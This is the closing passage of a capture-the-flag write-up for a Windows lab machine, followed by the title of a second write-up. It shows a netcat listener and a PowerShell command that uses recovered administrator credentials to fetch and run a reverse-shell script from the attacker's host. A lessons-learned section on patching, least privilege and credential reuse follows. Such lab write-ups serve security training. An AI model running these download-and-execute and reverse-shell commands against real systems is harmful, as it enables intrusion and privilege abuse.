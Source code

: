 Setup a python server in the directory that the script resides in.

```text
python -m SimpleHTTPServer 5555
```

Setup a listener to receive the reverse shell.

```text
nc -nlvp 6666
```

On the target machine, use the credentials to start PowerShell to download the _shell-admin.ps1_ script, run it and send a reverse shell back to our attack machine.

```text
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7:5555/shell-admin.ps1')" -Credential $cred
```

We get a shell with administrator privileges!

![](https://miro.medium.com/max/767/1*FzEuxFT88c3h8BlJVEsEVg.png)

Now we can view the _root.txt_ flag without having to change the ACL permissions on it.

![](https://miro.medium.com/max/785/1*Bf2Jui2BxcVzj2W4SI-wIg.png)

## Lessons Learned <a id="a720"></a>

To gain an initial foothold on the box we exploited one vulnerability.

1. Buffer Overflow vulnerability. The AChat chat service being used was vulnerable to a known remote buffer overflow vulnerability. This allowed us to execute shell code on the box and send a reverse shell back to our attack machine. Since this is a known vulnerability, the administrator should have used the patched version of AChat or completely disabled the service if a patch is not available.

To escalate privileges we exploited three vulnerabilities.

1. Security misconfiguration. The _Alfred_ user had full access on the _Administrator_ directory and owned the _root.txt_ file. Although we weren’t initially able to view the _root.txt_ file, we did own it so we simply granted ourselves access to view the file. The administrator should have conformed to the principle of least privilege when setting up user permissions.
2. Automatic logon credentials saved in plaintext. Again, I’m not too familiar with the Windows system, but it seems like there is an option to store [automatic logon credentials in encrypted form](https://docs.microsoft.com/en-us/windows/win32/secauthn/protecting-the-automatic-logon-password). This way, as a non-privileged user we wouldn’t have been able to access these credentials.
3. Reuse of credentials. The administrator had setup his password to be the same as the password used for automatic logon. Since these credentials are saved in cleartext in the registry, we were able to view them and start up a PowerShell process that sent a privileged reverse shell back to our attack machine in the context of the Administrator user. It goes without saying that you should definitely not reuse credentials, especially when setting up a non-privileged account where the credentials will be stored in plaintext.

# -------------------------------FIN-------------------------------------
# ----------------------DEBUT------------------------------
conceal-writeup-w-o-metasploit.md
# Conceal Writeup w/o Metasploit
